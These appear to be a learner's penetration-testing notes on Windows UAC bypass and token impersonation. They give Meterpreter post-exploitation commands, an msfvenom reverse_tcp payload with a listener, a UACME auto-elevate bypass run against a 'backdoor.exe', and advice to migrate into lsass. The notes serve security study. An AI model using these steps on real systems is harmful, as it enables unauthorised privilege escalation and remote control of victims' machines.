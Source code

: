 >BASICALLY THE PROMPT BOX THAT SHOWS UP WHEN YOU REQUEST TO DO SOMETHING THAT REQUIRES ELEVATED PRIVILEGES OR PERMISSIONS

steps to check for uac level settings.
- Start Menu - type uac - click on "Change User Account Control Settings"
```bash
POST EXPLOITATION INFORMATION - Meterpreter
> sysinfo
> getprivs

find a process ID for a particular task/service (pgrep)
> pgrep explorer
> migrate 2448

- NB : this is helpful especially when you need to migrate to a 64bit meterpreter session
```

JUST BECAUSE YOU ARE SYSTEM DOESNT MEAN THE PROCESS YOU ARE RUNNING AS IS

>[!Summary] Summary
> This section was basically about bypassing Uac that prevents you from doing privilged actions like changing the password of a user in admin group who you have compromised already via a shell session - Because you need to click on the consent box which you cant via CLI so it just says "Access is denied"

Bypass with hfiref0x/UACME - abuses the windows AutoElevate
```bash
1. first generate an msfvenom payload
> windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe 

2. start listener
> use multi/handler

3. We now want to run our payload with privileges
- Using Akigi - key 23 (key 23, 33, avoid any "Fixed")

> akigi64.exe 23 \Windows\Temp\backdoor.exe

4. Migrate to an NT AUTHORITY process in the new shell
migrate to lsass, spoolsv.exe etc.

NB : MUST USE ABSOLUTE PATH TO BACKDOOR EXE else you wont receive shell - worked for me. The difference in the shell you recieve from the previous is the amount of privileges you have. check with "getprivs"
```

****
#### Access Token Impersonation
tokens are created and managed by Local Security Authority Subsystem Service (LSASS) - it is responsible for identifying and describing the security context of a process or thread running on a system. Think of it as a web cookie that provides users access to resources without having to provide creds each time a process is started or a resource is accessed.
- Access Tokens are generated by winlogon.exe each time a user authenticates successfully.
- The token is then attached to the `userinit.exe` process and all child processes started by a user will inherit a copy of the access token from their creator and will run under the privs of the same access token.
